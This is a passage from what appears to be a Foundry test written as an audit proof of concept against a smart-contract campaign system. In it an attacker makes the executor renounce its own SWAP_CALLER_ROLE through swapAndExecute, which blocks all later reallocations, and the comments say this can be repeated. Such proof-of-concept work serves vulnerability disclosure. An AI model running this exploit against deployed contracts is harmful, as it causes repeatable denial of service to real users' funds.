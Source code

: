 ```
          campaignAdmin,
          0, // start immediately
          alternativeWithdrawalAddress,
          INITIAL_FUNDING,
          1 // uuid
        )
      )
    );

    // Setup swapCaller
    deal(address(targetToken), swapCaller, INITIAL_FUNDING);
    vm.prank(swapCaller);
    targetToken.approve(address(campaign), type(uint256).max);
  }

  function test_DOSReallocation() public {
    vm.deal(badActor, 10 ether);
    vm.startPrank(badActor);

    //deploy test usdc contract - this can be custom contract deployed by the attacker
    TestUSDC testUsdc = new TestUSDC("A", "B");

    testUsdc.mintTo(1 ether, badActor);
    testUsdc.approve(address(executor), 1);
    testUsdc.approve(address(erc20Proxy), 1);

    bytes memory renounceRoleCallData =
      abi.encodeWithSignature("renounceRole(bytes32,address)", SWAP_CALLER_ROLE, address(executor));

    LibSwap.SwapData memory sd1 = LibSwap.SwapData(
      //callTo:
      address(factory),
      //approveTo:
      address(testUsdc),
      //sendingAssetId:
      address(testUsdc),
      //receivingAssetId:
      address(testUsdc),
      //fromAmount:
      1,
      //callData:
      renounceRoleCallData,
      //requiresDeposit:
      false
    );

    LibSwap.SwapData[] memory swapDataArray = new LibSwap.SwapData[](1);
    swapDataArray[0] = sd1;

    bytes32 transactionId = bytes32(uint256(1));
    address transferredAssetId = address(testUsdc);
    address receiver = address(badActor);
    uint256 amount = 1;
    //attacker orders executor to execute renounceRole function on factory contract, leading to loss of role for executor
    // all of the future handleReallocations will revert, unless Nudge Admin will grant SWAP_CALLER_ROLE to executor
    //but the attacker can repeat this process indefinitely
    executor.swapAndExecute(transactionId, swapDataArray, address(testUsdc), payable(receiver), amount);
    vm.stopPrank();

```